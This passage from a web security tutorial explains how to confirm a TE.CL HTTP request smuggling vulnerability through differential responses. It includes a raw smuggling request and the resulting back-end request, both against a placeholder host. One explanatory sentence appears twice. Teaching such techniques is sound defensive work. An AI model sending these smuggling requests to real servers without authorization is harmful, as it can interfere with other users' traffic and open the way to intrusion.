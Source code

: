 Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.

## Confirming TE.CL vulnerabilities using differential responses

To confirm a TE.CL vulnerability, you would send an attack request like this:

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

If the attack is successful, then everything from GET /404 onwards is treated by the back-end server as belonging to the next request that is received. This will cause the subsequent "normal" request to look like this:

```
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Since this request now contains an invalid URL, the server will respond with status code 404, indicating that the attack request did indeed interfere with it.